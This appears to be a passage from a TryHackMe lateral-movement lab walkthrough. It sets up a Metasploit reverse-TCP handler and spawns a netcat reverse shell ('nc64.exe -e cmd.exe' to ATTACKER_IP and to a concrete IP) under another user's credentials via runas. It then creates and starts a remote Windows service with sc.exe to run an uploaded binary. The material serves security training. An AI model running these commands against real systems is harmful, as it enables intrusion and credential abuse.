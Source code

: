 ```shell-session
user@AttackBox$ msfconsole
msf6 > use exploit/multi/handler
msf6 exploit(multi/handler) > set LHOST lateralmovement
msf6 exploit(multi/handler) > set LPORT 4444
msf6 exploit(multi/handler) > set payload windows/shell/reverse_tcp
msf6 exploit(multi/handler) > exploit 

[*] Started reverse TCP handler on 10.10.10.16:4444
```

Alternatively, you can run the following one-liner on your Linux console to do the same:

```shell-session
user@AttackBox$ msfconsole -q -x "use exploit/multi/handler; set payload windows/shell/reverse_tcp; set LHOST lateralmovement; set LPORT 4444;exploit"
```

Since `sc.exe` doesn't allow us to specify credentials as part of the command, we need to use `runas` to spawn a new shell with t1_leonard.summer's access token. Still, we only have SSH access to the machine, so if we tried something like `runas /netonly /user:ZA\t1_leonard.summers cmd.exe`, the new command prompt would spawn on the user's session, but we would have no access to it. To overcome this problem, we can use runas to spawn a second reverse shell with t1_leonard.summers access token:

THMJMP2: Command Prompt

```shell-session
C:\> runas /netonly /user:ZA.TRYHACKME.COM\t1_leonard.summers "c:\tools\nc64.exe -e cmd.exe ATTACKER_IP 4443"
```

**Note:** Remember that since you are using `runas` with the `/netonly` option, it will not bother to check if the provided credentials are valid (more info on this on the [Enumerating AD room](https://tryhackme.com/room/adenumeration)), so be sure to type the password correctly. If you don't, you will see some ACCESS DENIED errors later in the room.

We can receive the reverse shell connection using nc in our AttackBox as usual:

```shell-session
user@AttackBox$ nc -lvp 4443
```

And finally, proceed to create a new service remotely by using sc, associating it with our uploaded binary:

THMJMP2: Command Prompt (As t1_leonard.summers)

```shell-session
C:\> sc.exe \\thmiis.za.tryhackme.com create THMservice-3249 binPath= "%windir%\myservice.exe" start= auto
C:\> sc.exe \\thmiis.za.tryhackme.com start THMservice-3249
```

Be sure to change the name of your service to avoid clashing with other students.

Once you have started the service, you should receive a connection in your AttackBox from where you can access the first flag on t1_leonard.summers desktop.

```
runas /netonly /user:ZA.TRYHACKME.COM\t1_leonard.summers "c:\tools\nc64.exe -e cmd.exe 10.50.46.98 4443"
```
